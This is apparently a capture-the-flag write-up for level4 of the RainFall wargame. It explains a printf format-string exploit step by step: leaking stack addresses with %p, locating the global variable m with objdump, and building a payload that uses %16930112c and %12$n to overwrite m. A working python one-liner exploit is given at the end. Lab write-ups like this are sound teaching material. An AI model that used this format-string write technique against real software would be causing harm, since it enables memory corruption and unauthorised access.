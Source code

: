 We start by opening the binary in [dogbolt](https://dogbolt.org/) here we see that it is the same vulnerability that the previous level.
However this level has a difficulty that the first one didn't have here we must put 16930116 char in `m`,
it is a problem since it exceed pipe capacity or command size.

Ok so will use the same step as the previous level first we will find the address of the buffer containing our input:
``` Shell
level4@RainFall:~$ ./level4
AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
AAAA 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025
```
We can find the start of our buffer with `%12$p`

Ok lets find m `m` with `objdump` :
```
...
08049810 g     O .bss   00000004              m
...
```
Address of `m` : `08049810`
little endian : `\x10\x98\x04\x08`

And the the tricky part :
How can we put so many characters ?
The simple response is, by using `printf` to fill character for us
Ok lets tried to do it :

```C
#include <stdio.h>

int main()
{
        printf("%-3c%c\n", 'a','b');
}
```

Output:
```
a  b
```
Here we can see that the first char is completed by space to fill the 3 char size needed.

Lets puts things to gether:
[address][%16930112c (`16930116 - 4(address) = 16930112c`)][`%12$n` (where the address of `m` is stored)]
```Shell
python -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%12$n"' > /tmp/exploit && cat /tmp/exploit | ./level4
```
